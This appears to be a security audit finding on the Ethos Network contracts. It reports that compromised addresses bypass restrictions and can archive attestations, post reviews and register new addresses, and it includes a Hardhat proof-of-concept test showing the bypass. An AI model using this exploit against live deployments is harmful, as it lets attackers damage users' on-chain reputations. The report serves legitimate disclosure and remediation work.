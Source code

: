 Quaint Nylon Caterpillar

High

# Compromised addresses can interact with the whole system and grief other users

### Summary

In Ethos, each user has a profile identified by a unique id, which can have multiple associated addresses. Profiles can receive reviews, votes, attestations, and comments.

If a user removes an address from their profile, the address becomes marked as **compromised** and is intended to be restricted with the system. This is confirmed in the documentation and by the sponsor:

> - **isAddressCompromised**: (mapping(address => bool)) Keeps track of addresses that are compromised, preventing certain actions from being taken by these addresses.

[_documentation/ethosProfile.md_](https://github.com/sherlock-audit/2024-10-ethos-network/blob/db37b9dc2b792e245eb683d8a956bcb7ef2f1a27/ethos/packages/contracts/documentation/ethosProfile.md)

Private thread with the sponsor:
![sponsor confirming](https://i.imgur.com/Gc7fwzk.png)

However, the `archiveAttestation()` and `restoreAttestation()` functions in `EthosAttestation.sol` do not check if the address is compromised, allowing it to perform these actions.

```solidity
334:  function archiveAttestation(bytes32 attestationHash) external whenNotPaused {
        ...
        // ensure attestation belongs to sender
        uint256 profileId = attestationByHash[attestationHash].profileId;
  📌    bool senderBelongsToProfile = IEthosProfile(_getEthosProfile()).addressBelongsToProfile(msg.sender, profileId);
        if (!senderBelongsToProfile) {
            revert AddressNotInProfile(msg.sender, profileId);
        }
      ...
    }
```

[_EthosAttestation.sol#342_](https://github.com/sherlock-audit/2024-10-ethos-network/blob/db37b9dc2b792e245eb683d8a956bcb7ef2f1a27/ethos/packages/contracts/contracts/EthosAttestation.sol#L342)

```solidity
532: function addressBelongsToProfile(address addressStr, uint256 profileId) external view returns (bool) {
        ...
        return profileIdByAddress[addressStr] == profileId;
    }
```

[_EthosProfile.sol#539_](https://github.com/sherlock-audit/2024-10-ethos-network/blob/db37b9dc2b792e245eb683d8a956bcb7ef2f1a27/ethos/packages/contracts/contracts/EthosProfile.sol#L539)

The function `addressBelongsToProfile()` only checks if the address is mapped to the profile ID in the `profileIdByAddress` mapping but does not consider whether the address is compromised. As a result, compromised addresses can still interact with the system, which violates the intended design.

Due to `verifiedProfileIdForAddress()` and `profileStatusByAddress()` also being vulnerable by this issue, the following functions can be also used by a compromised address:

- EthosDiscussion
  - `addReply()`, `editReply()`
- EthosReview
  - `addReview()`, `editReview()`, `archiveReview()`, `restoreReview()`
- EthosProfile
  - `archiveProfile()`, `restoreProfile()`, **`inviteAddress()`**, `uninviteUser()`, **`registerAddress()`**
    _(compromised addresses can even register more addresses to the profile that are not marked as compromissed and do further damage)_
- EthosAttestation
  - `createAttestation()`, `archiveAttestation()`, `restoreAttestation()`


### Root Cause

`checkIsAddressCompromised()` checks are missing inside `profileStatusByAddress()`, `verifiedProfileIdForAddress()`, and `addressBelongsToProfile()` functions.

### Internal pre-conditions

User has a compromised address.

### External pre-conditions

None

### Attack Path

1. UserA's address becomes compromised.
2. The malicious actor with access to the compromised address can interact with the system as if it is not compromised.
3. Malicious actor leaves neagtive reviews, votes, comments, etc.

### Impact

Compromised addresses can interact with the system as if they were not compromised, allowing malicious actions (e.g., leaving negative reviews, votes, comments, etc), which can impact users' social status. The original profile owner is unable to remove the compromised address, meaning **damage done by the compromised address cannot be undone**. 

The profile owner **needs to create a new profile** to get rid of the compromised address.

### PoC


The following PoC demonstrates how a **compromised address can archive and restore attestations**. But the **same concept can be applied to other functions** mentioned above.

Place the code in `attestation.create.test.ts`:

<details>
<summary>Click to see the code</summary>

```typescript
// eslint-disable-next-line jest/no-focused-tests
it.only('should be able to archive and restore attestation from compromised profile', async () => {
  const signature = await common.signatureForCreateAttestation(
    '2',
    '3592832',
    ACCOUNT_NAME_BEN,
    SERVICE_X,
    ATTESTATION_EVIDENCE_0,
    EXPECTED_SIGNER,
  );

  await ethosAttestation
    .connect(userA.signer)
    .createAttestation(
      2,
      3592832,
      { account: ACCOUNT_NAME_BEN, service: SERVICE_X },
      ATTESTATION_EVIDENCE_0,
      signature,
    );
  const aHash = await ethosAttestation.getServiceAndAccountHash(SERVICE_X, ACCOUNT_NAME_BEN);
  const attestation = await ethosAttestation.getAttestationByHash(aHash);

  expect(attestation.archived).to.be.equal(false);

  const blocked = await deployer.newWallet();
  const signatureForRegistration = await common.signatureForRegisterAddress(
    blocked.address,
    (2).toString(),
    (222323).toString(),
    EXPECTED_SIGNER,
  );

  await ethosProfile
    .connect(userA.signer)
    .registerAddress(blocked.address, 2, 222323, signatureForRegistration);
  await ethosProfile.connect(userA.signer).deleteAddressAtIndex(1);

  await expect(ethosProfile.checkIsAddressCompromised(blocked.address))
    .to.be.revertedWithCustomError(ethosProfile, 'AddressCompromised')
    .withArgs(ethers.getAddress(blocked.address));

  // should try to archive attestation from compromised profile
  await ethosAttestation.connect(blocked).archiveAttestation(aHash);
  const attestationAfterArchive = await ethosAttestation.getAttestationByHash(aHash);
  expect(attestationAfterArchive.archived).to.be.equal(true);

  // should try to restore attestation from compromised profile
  await ethosAttestation.connect(blocked).restoreAttestation(aHash);
  const attestationAfterRestore = await ethosAttestation.getAttestationByHash(aHash);
  expect(attestationAfterRestore.archived).to.be.equal(false);
});
```

</details>

### Mitigation

Add `checkIsAddressCompromised()`@EthosProfile to `addressBelongsToProfile()` and `profileStatusByAddress()` functions.
